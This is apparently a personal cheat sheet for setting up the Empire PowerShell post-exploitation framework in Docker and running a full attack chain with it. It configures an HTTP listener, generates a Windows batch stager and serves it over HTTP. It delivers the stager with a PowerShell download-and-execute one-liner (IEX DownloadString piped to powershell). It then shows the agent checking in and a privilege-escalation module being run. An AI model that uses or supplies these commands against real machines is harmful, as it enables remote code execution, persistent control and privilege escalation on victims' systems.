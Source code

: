 #### 1. About

- URL: `https://github.com/EmpireProject/Empire`
- Empire PwerShell agent


#### 2. Setup and run
```
# docker pull empireproject/empire
# docker run --name empire -v /tmp:/tmp -p 5000:5000 -d --rm -it empireproject/empire
# docker exec -it empire ./empire
```


#### 3. Example

1. Listener
```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://192.168.9.11:5000
(Empire: listeners/http) > execute
(Empire: listeners/http) > back
```
Note: IP address of host interface where Docker container runs


2. Create payload
```
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
```


3. Prepare and deliver payload
```
# grep -oE 'powershell .*' /tmp/launcher.bat > data && python -m SimpleHTTPServer 8888
C:\> echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.9.11:8888/data') | powershell -noprofile -
```


4. Agent response
```
(Empire: stager/windows/launcher_bat) > [*] Sending POWERSHELL stager (stage 1) to ...
[*] New agent UPCLMZ1S checked in

(Empire: stager/windows/launcher_bat) > [+] Initial agent UPCLMZ1S from ... now active (Slack)
[*] Sending agent (stage 2) to UPCLMZ1S at ...

(Empire: stager/windows/launcher_bat) > agents
(Empire: stager/windows/launcher_bat) > interact UPCLMZ1S
(Empire: UPCLMZ1S) > usemodule privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > run
```

